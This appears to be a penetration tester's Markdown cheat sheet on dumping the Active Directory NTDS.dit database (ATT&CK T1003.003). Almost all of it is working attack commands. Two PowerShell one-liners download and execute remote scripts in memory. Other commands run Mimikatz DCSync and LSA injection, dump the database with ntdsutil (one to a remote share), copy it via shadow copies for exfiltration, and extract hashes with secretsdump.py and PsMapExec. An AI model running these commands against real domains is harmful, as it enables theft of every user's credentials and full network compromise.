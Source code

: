 ```yaml
---
date: 
tags:
  - ActiveDirectory
  - NTDS
---
```


```table-of-contents
```

# Description: 

https://attack.mitre.org/techniques/T1003/003/

# NTDS

**ATT\&CK ID:** [T1003.003](https://attack.mitre.org/techniques/T1003/003/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to access or create a copy of the Active Directory domain database in order to steal credential information, as well as obtain other information about domain members such as devices, users, and access rights. By default, the NTDS file (NTDS.dit) is located in `%SystemRoot%\NTDS\Ntds.dit` of a domain controller.

In addition to looking for NTDS files on active Domain Controllers, adversaries may search for backups that contain the same or similar information.

## Techniques

### Invoke-DCsync (PentestFactory)

**URL:** [https://github.com/pentestfactory/Invoke-DCSync](https://github.com/pentestfactory/Invoke-DCSync)

Invoke-DCsync pulls Mimikatz,PowerView and ADRecon from Github into memory and then performs DCSync.

```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pentestfactory/Invoke-DCSync/main/Invoke-DCSync.ps1")

# Execute
Invoke-DCSync
```

![](../../../Assets/Pasted%20image%2020250619221044.png)

### Invoke-DCSync (S3cur3Th1sSh1t)

```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-DCSync.ps1")

# Execute
Invoke-DCSync -dcfqdn DC01.security.local -username administrator
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

```
use auxiliary/admin/smb/psexec_ntdsgrab
```

![](../../../Assets/Pasted%20image%2020250619221058.png)

`secretsdump.py` can then be used to pull hashes from the `ntds.dit` database using the SYSTEM hive file (ref: secretsdump.py further down).

### Mimikatz

```powershell
# Dump hashes for a specified users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump hashes for all users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /all"'

# Dump hashes by injecting into the lsass process on the Domain Controller
Invoke-Mimikatz -command '"lsadump::lsa /inject"'
```

![](../../../Assets/Pasted%20image%2020250619221105.png)

### ntdsutil.exe (Native)

With access to the Domain Controller its possible to run the `ntdsutil.exe` native binary to dump SAM, SYSTEM and ntds.dit ready for exfiltration.

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Exfiltration' q q"

# Dump to remote share
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full \\10.10.10.10\Share\Exf' q q"
```

![](../../../Assets/Pasted%20image%2020250619221114.png)

Viewing the contents of `c:\Exfiltration` we see the files.

![](../../../Assets/Pasted%20image%2020250619221127.png)

Secretsdump we can be used against these files for extraction as shown in the `secretsdump.py` section below.

### Secretsdump.py

```bash
# With valid credentials
secretsdump.py security.local/moe:Password123@10.10.10.100 -just-dc-ntlm
```

![](../../../Assets/Pasted%20image%2020250619221138.png)

```bash
# Dump from exfiltrated ntds.dit and SYSTEM files.
sudo secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

![](../../../Assets/Pasted%20image%2020250619221148.png)

```bash
# Dump results from ntdsutil.exe method
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit LOCAL
```

### PsMapExec

```powershell
# As current user
PsMapExec -Targets DCs -Method SMB -Module NTDS

# As a specified user
PsMapExec -Targets DCs -Method SMB -Module NTDS -Username Administrator -Password Password123!
```

![](../../../Assets/Pasted%20image%2020250619221200.png)

### Volume Shadow Copy

```bash
# Create VSS snapshot of system drive
vssadmin create shadow /for=C:

# create a copy of NTDS.dit and SYSTEM then move to C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM C:\Exfiltration
```

![](../../../Assets/Pasted%20image%2020250619221207.png)

The NTDS.dit and SYSTEM files can be exfiltrated off the system and used with a tool such as `secretsdump.py` for hash extraction.

